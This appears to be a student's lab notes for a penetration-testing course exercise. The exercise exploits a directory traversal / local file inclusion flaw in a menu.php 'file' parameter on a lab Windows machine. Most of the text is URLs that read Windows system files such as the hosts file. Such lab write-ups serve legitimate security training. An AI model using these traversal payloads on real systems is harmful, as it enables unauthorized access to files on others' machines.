



9.4.3.2

# 9.4.3.2
##  9.4.3.2.1. Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

Browse to the menu page
http://192.168.214.10/menu.php?file=current_menu.php

Test for LFI by replacing 'current_menu.php' with 'old.php'
http://192.168.214.10/menu.php?file=old.php

Instead of old.php, try putting typical Windows path\file name
http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\hosts

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\networks

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\services

